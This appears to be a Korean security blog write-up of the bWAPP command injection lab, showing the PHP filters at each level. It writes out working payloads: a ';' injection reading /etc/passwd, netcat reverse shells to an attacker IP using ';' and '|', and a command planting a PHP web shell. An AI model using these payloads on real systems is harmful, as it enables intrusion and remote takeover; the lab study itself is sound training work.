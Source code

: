 ```yaml
---
layout: single
title: (bWAPP)Command Injection
categories: Web-vuln
tag: [os injection. bwapp, bee box, command injection, OWASP TOP 10, OWASP]
toc: true
author_profile: false
sidebar:
    nav: "counts"
---
```


# 검증 로직

```php
function commandi($data)
{
    switch($_COOKIE["security_level"])
    {
        case "0" :
            $data = no_check($data);
            break;
        case "1" :
            $data = commandi_check_1($data);
            break;
        case "2" :
            $data = commandi_check_2($data);
            break;
        default :
            $data = no_check($data);
            break;
    }
    return $data;
}
```

## Level - Low

> Low Level 에서는 아무런 검증이 이루어지지 않아 해당 취약점이 손쉽게 악용될 수 있다.

![그림 1-1](/assets/image/bwapp/injection/image1.png)
-  DNS lookup 기능을 수행하는 입력창이 존재
- 활성화된 버튼을 클릭하게 되면, http://www.nsa.gov 도메인에 대한 DNS Lookup이 이루어져 매칭되는 IP를 알려준다.

![그림 1-2](/assets/image/bwapp/injection/image2.png)

- 해당 능에서는 시스템 함수를 사용한다는 것을 짐작할 수 있다.
- 이 때 적절한 입력 값 검증이 이루어지지 않는다면, 시스템의 메타문자들을 이용하여 앞 명령어에 이어서 추가 명령어를 실행할 경우 RCE 취약점으로 연계가 가능하다.

```shell
www.nsa.gov; cat /etc/passwdw 
```

- 위 코드와 같이 ;(명령어 구분자)를 통해 새로운 시스템 명령어를 보내 서버측에서 실행하도록 하였다.

![그림 1-3](/assets/image/bwapp/injection/image3.png)
- 출력된 사진과 같이 성공적으로 /etc/passwd 코드를 읽어들여 브라우저상에 출력되는 걸 확인했다.
- 위와 같이 OS Injection 취약점이 존재할 경우 시스템 명령어 주입이 가능한경우 공격자 서버에서 reverse connection이 가능하다

```shell
nc -lvp 5252
```

- 공격자 PC에서 nc를 통해 포트를 열어놓은 상태에서
- cat /etc/passwd 인자 대신 nc [공격자 ip] 5252(포트) -e /bin/bash 를 인자로 주어 연결에 성공한다.

```shell
www.nsa.gov; nc 172.20.120.196 5252 -e /bin/bash
```

![그림 1-4](/assets/image/bwapp/injection/image4.png)
## Level - Medium
> Level - Medium 에서는 &, ; 메타문자가 필터링 된 걸 알 수 있다.
```php
function commandi_check_1($data)
{
    
    $input = str_replace("&", "", $data);
    $input = str_replace(";", "", $input);
    
    return $input;
```
> &와 ; 메타문자가 필터링 되었어도, | 메타문자를 통해 두번 째 인자가 시스템 명령어로 실행이 가능하다.

```shell
www.nsa.gov | nc 172.20.120.196 5252 -e /bin/bash
```

## Level - High
> Level - High 에서는 escapeshellcmd() 함수를 통해 적절하게 검증이 이루어지고 있다.

```shell
function commandi_check_2($data)
{
   
    return escapeshellcmd($data);
    
}
```
>escapeshellcmd() 함수는 PHP 함수로서, 외부 명령을 실행하기 전 입력된 문자열에 대해 이스케이프 처리를 수행한다. 이를 통해 메타문자를 이스케이프하여, 쉘 명령을 실행할 수 없도록 한다.

# Blind - Based
> Blind 기반의 OS 인젝션 파트도 필터링은 동일하게 적용되어 있으며, Blind 기반의 OS 인젝션에 대한 부분중 하나를 실습해보았다. (해당 실습에서 사용된 방식을 제외한 여러 Blind 기반의 공격기법은 다양하지만 redirect 를 통한 Blinde 기반의 공격을 실습해보았다.)

![그림 1-5](/assets/image/bwapp/injection/image5.png)
 - 사진에서 볼 수 있듯, 명령어에 대한 어떠한 결과값이 도출되지 않고 있다

 ```shell
 127.0.0.1;echo '<?php system($_GET['cmd']) ?>' > /var/www/bWAPP/shell.php
 ```

 - 입력값과 추가 시스템 명령어를 전달하였다.
- 실습대상인 bWAPP의 웹 디렉터리 내에 shell.php 파일을 생성하였고, 웹 페이지에서 해당 경로로 접근하면 웹쉘이 실행되는것을 확인했다.
![그림 1-6](/assets/image/bwapp/injection/image6.png)

